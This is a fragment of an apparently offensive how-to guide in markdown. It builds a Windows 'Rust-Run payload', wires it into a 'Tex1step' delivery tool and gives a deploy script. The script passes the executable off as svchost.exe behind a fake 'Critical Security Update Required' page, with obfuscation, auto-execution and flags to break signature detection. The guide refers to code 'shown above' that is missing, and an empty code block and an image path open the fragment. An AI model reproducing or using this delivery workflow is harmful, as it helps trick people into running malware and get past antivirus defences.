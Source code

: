 ```javascript
```

### Step-by-Step Integration and Deployment Guide

The below steps demonstrate the complete process of integrating the embedded Rust-Run payload with Tex1step for deployment:

1. **Build the Rust-Run Payload**

```bash
# Clone and build Rust-Run with embedded payload
git clone https://github.com/your-username/rust-run.git
cd rust-run

# Build the release version for Windows
cargo build --release --target x86_64-pc-windows-gnu
```

2. **Integrate with Tex1step**

```bash
# Set up the Tex1step project
git clone https://github.com/your-username/tex1step.git
cd tex1step

# Create required directories
mkdir -p payloads

# Copy the Rust-Run payload
cp ../rust-run/target/x86_64-pc-windows-gnu/release/rust-run.exe payloads/

# Create the custom payload handler (as shown above)
# Add to src/delivery/custom_payload.js

# Modify build_exe.js to support Rust-Run (as shown above)
```

3. **Create a Deployment Script**

```bash
#!/bin/bash
# File: deploy.sh

# Set environment variables
PAYLOAD_DIR="./payloads"
PAYLOAD_NAME="rust-run.exe"
DELIVERY_NAME="svchost.exe"
PAGE_TITLE="Critical Security Update Required"
DELIVERY_PORT=8080

# Check if payload exists
if [ ! -f "$PAYLOAD_DIR/$PAYLOAD_NAME" ]; then
  echo "[!] Error: Payload not found at $PAYLOAD_DIR/$PAYLOAD_NAME"
  exit 1
fi

# Build the delivery system
node src/build.js \
  --build-exe \
  --build-delivery \
  --package-tool custom-rust-run \
  --exe-name "$DELIVERY_NAME" \
  --page-title "$PAGE_TITLE" \
  --obfuscate \
  --auto-execute \
  --break-signature-detection \
  --countdown 15
```